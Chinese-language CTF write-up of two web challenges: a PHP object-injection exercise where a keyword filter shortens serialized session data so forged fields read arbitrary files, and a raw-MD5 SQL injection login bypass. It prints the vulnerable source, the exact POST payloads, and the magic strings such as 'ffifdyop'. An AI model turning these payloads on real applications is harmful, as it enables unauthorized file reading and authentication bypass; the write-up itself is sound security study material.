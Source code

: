 # 3月做题



## [安洵杯 2019]easy_serialize_php

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```



```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
extract($_POST);
$_SESSION['img'] = base64_encode('guest_img.png');
$serialize_info = filter(serialize($_SESSION));
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
```

我们利用filter来吞掉一些字符,从而让我们任意反序列化

`POST: _SESSION[abc]=flagflagphpphpphp&_SESSION[aaa]=;s:3:"img";s:12:"aW5kZXgucGhw";s:1:"a";s:1:"a";}`

我们分析一下为什么是这个payload:

...

在phpinfo中找到

| config | Local Value | Mastr Value |
| ---------------- | ------------- | ------------- |
| auto_append_file | d0g3_f1ag.php | d0g3_f1ag.php |

```
_SESSION[abc]=flagflagphpphpphp&_SESSION[aaa]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}
_SESSION[abc]=flagflagphpphpphp&_SESSION[aaa]=;s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"a";s:1:"a";}
```



```php

<?php

$flag = 'flag in /d0g3_fllllllag';

?>
```



`flag{62b16099-c29d-499a-9dde-e54bf2985b31}`

## easymd5

```
select * from 'admin' where password=md5($pass,true)
```

md5($var,true)会返回一个原始的二进制数据，某些数据会被当成字符串

   > raw MD5 hashes are dangerous in SQL statements because they can contain characters with special meaning to MySQL(原始值会包含mysql中的特殊字符，因此很危险）。

   特殊字符串:

   >129581926211651571912466741651878684928
   >ffifdyop

